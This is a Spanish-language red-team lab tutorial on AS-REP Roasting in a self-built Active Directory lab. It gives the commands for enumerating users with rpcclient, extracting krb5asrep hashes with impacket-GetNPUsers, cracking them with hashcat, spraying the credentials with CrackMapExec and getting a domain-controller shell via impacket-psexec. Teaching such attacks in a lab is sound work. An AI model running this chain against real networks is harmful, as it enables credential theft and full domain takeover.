


# AS\_REP ROASTING

## INTRODUCCIÓN


Este ataque está relacionado a las [malas prácticas](https://ajcruz15.gitbook.io/red-team/active-directory-hacking/creando-un-laboratorio-de-ad/3.-misconfiguraciones-importantes):

* **2. Desactivar el Firewall de Windows.**
* **3. Desactivar las protecciones del Antivirus de Windows Defender.**
* **5. Asignar un SPN al usuario creado.**
* **9. Marcar la Opción "No requiere preautenticación de Kerberos".**


### Esquema de trabajo

Vamos a explotar el siguiente esquema.

En una red empresarial no hemos conseguido acceso a ningún activo por ahora, sin embargo, tenemos unos credenciales de usuario sin privilegios \(vgarcia:Password2\). Como parte de nuestra rutina tratamos de explotar un AS\_REP Roasting.


La base de este ataque está en usuarios que tengan activa la Opción "No requiere preautenticación de Kerberos". Esto hace que el protocolo Kerberos expida un Ticket-Granting Ticket en nombre de dicho usuario sin comprobar su identidad.

Por tanto, cualquiera puede solicitar un **KRB\_AS\_REQ** en nombre del usuario y Kerberos devolverá un **KRB\_AS\_REP** que, recordemos, incluye una **Session Key** que está encriptado con el secreto del usuario.

Por tanto, tenemos el Hash krb5asrep del usuario que podemos crackear facilmente, siempre y cuando la contraseña no sea muy robusta.


Para entender más en profundidad estos conceptos puede leer el siguiente artículo:



### Herramientas necesarias

#### RPCClient

Herramienta para ejecutar el cliente de MS-RPC. Viene instalada por defecto en Linux.



#### CrackMapExec 

Es una herramienta de post-explotación que se aprovecha de protocolos y características propias de los entornos de Directorio Activo para obtener una gran cantidad de información sobre los mismos.

Utiliza **Impacket** y **Powersploit Toolkit**



#### **Impacket**

Es una colección de clases de Python para trabajar con protocolos de red. Está pensada para obtener control a bajo nivel de los paquetes utilizados por algunos protocolos y, en algunos casos como SMBv1, la propia implementación del protocolo en sí mismo.

Concretamente para este ataque vamos a utilizar **impacket-GetNPUsers**



#### PowerSploit Toolkit 

Es una colección de scripts de Powershell orientados a ayudar a pentesters en su proceso. Éste repositorio se encuentra deprecated.



#### Hashcat 

Es el crackeador de hashes más rápido del mundo actualmente. Puede aprovecharse de la pontecia de una GPU.



#### **Resumen**

* Vamos a comprobar si existen usuarios con la opción "No requiere preautenticación de Kerberos" activada y a obtener sus TGTs.
* Vamos a crackear estos TGTs.
* Vamos a comprobar el alcance de los credenciales obtenidos.
* Vamos a acceder con una shell interactiva.

## EXPLOIT

### 1. Comprobar usuarios NP

Lo primero que debemos hacer es obtener los usuarios que tiene el Active Directory.

Con **rpcclient** podemos enumerar los usuarios del AD facilmente:

`rpcclient -U "vgarcia" -W hackpoc 192.168.1.100 -c enumdomusers`

Los guardamos en un archivo users.txt \(Para acelerar el proceso podemos utilizar el siguiente oneliner:

`echo "Copiamos la salida del comando anterior" | grep '\[.*?\]' | grep -v '0x' | tr -d '[]'`

Una vez lo tenemos almacenados utilizamos impacket-GetNPUsers para comprobar cuantos de estos tienen la opción NP activa:

`impacket-GetNPUsers hackpoc/ -usersfile users.txt -format hashcat -outputfile as_rep.txt`

### 2. Crackear el Hash

A continuación tratamos de crackear el Hash utilizando Hashcat \(aunque tambien se puede utilizar john\).

1. Para averiguar el modo en el que trabaja hashcat con estos hashes sacamos: `hashcat --example-hashes | grep "krb5asrep" -B 2` 
2. Utilizamos hashcat para crackear el hash. `hashcat -m 18200 -a 0 as_rep.txt /usr/share/wordlists/rockyou.txt`

### 3. Comprobar alcance de credenciales

Utilizamos CrackMapExec para comprobar si los credenciales obtenidos tienen capacidad de PSExec con alguno de los activos de la empresa.

`cme smb 192.168.1.0/24 -u "SVC-SQLService" -p "MYpassword123#"`

### 4. shell interactiva con el DC

El usuario que hemos obtenido es un usuario administrador de dominio por lo que ahora tenemos capacidad de PSExec al DC.

`impacket-psexec hackpoc/SVC-SQLService:MYpassword123#@192.168.1.100 cmd.exe`

## REFERENCIAS

{% embed url="https://en.hackndo.com/kerberos-asrep-roasting/%0Ahttps://www.youtube.com/watch?v=KYFlvFfh-Js&list=PLlb2ZjHtNkpg2Mc3mbkdYAhEoqnMGdl2Z&index=2" caption="" %}

